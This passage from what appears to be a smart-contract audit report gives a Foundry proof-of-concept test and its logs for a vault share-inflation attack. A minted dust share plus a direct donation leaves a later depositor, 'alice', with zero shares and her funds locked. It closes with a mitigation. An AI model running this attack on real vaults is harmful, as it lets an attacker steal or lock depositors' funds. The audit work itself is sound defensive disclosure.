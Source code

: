 ```solidity

        vm.prank(OWNER);
        vault.addSupportedMarkets(market, allocationCaps, queue, queue);

        setERC20Balance(address(BASE_ASSET), address(this), 11e18 + 10);

        uint256 initialAssetBalance = BASE_ASSET.balanceOf(address(this));
        console.log("attacker balance before : ");
        console.log(initialAssetBalance);

        vault.mint(10, address(this));

        IERC20(address(BASE_ASSET)).transfer(address(vault), 11e18);

        address alice = address(0xabcd);
        setERC20Balance(address(BASE_ASSET), alice, 10e18 + 10);
        vm.startPrank(alice);
        IERC20(address(BASE_ASSET)).approve(address(vault), 1e18);
        vault.deposit(1e18, alice);
        vm.stopPrank();

        uint256 aliceShares = vault.balanceOf(alice);
        console.log("alice shares : ");
        console.log(aliceShares);

        vault.redeem(vault.balanceOf(address(this)), address(this), address(this));
        uint256 afterAssetBalance = BASE_ASSET.balanceOf(address(this));
        console.log("attacker balance after : ");
        console.log(afterAssetBalance);

    }
```

Test Ouput :

```shell
Logs:
  attacker balance before :
  11000000000000000010
  alice shares :
  0
  attacker balance after :
  10909090909090909100
```

It can be observed that the attacker can lock `1 ETH` of Alice's assets at the cost of ~ `0.1 ETH`.

**Recommendations**

Set the value of `_decimalsOffset` to 6 or consider mitigating this with an initial deposit of a small amount

## Medium Risk
### [M-04] New pool can be temporarily blocked
